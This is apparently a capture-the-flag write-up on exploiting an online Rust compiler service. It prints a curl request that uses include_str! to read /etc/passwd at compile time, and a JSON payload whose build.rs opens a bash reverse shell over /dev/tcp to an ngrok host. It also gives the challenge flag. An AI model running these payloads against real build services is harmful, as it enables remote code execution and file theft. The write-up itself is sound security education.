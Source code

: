 # Challenge Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify"> In this challenge a Rust compilator was available online; it was possible able to send raw rust code to the online service which was returning a binary containing our Rust code compiled. The code was sent through JSON payload, using the following cmdline (provided with the chall). The source code of the compilator was also provided, docker file and server files also so you could have deployed the service locally : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
````
<p align="justify">I had never used Rust before, so I had to read a few doc before trying to exploit anything. After a few read, I came up with a first exploit. Actually with rust it's possible to use the macro include_str to load file/data during code compilation. So the first thing I tried was to load /etc/passwd, which was successful : </p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

<p align="center"><img src="Screenshots/S3.png" alt="Desc"></p>

<p align="justify">Afterward, I thought I would be able to load the file directly, but the name of the flag file wasn't the one provided in the source files. Since I couldn’t guess the actual name of the flag file, I decided to deploy a reverse shell. In Rust, when code is compiled using Cargo, the file build.rs is automatically loaded into the compilation process (it is located in the root folder of your rust project). This file is often used to generate files that you want to include in your Rust project, or to run scripts before and after compilation: </p> 

````text
project_dir/
├── Cargo.toml      
├── build.rs        
├── src/
│   ├── main.rs     
│   └── lib.rs      
└── output_dir/
````

<p align="justify">So, in the context of this challenge, it was an open door to remote code execution (RCE). As a result, I deployed a reverse shell using the following JSON payload (the reverse shell payload is available in revshell.rs in this repository):</p>

````json
{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

<p align="justify"> For tcp tunneling I used ngrok, and after I received the remote connection I managed to print the flag : </p>

Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
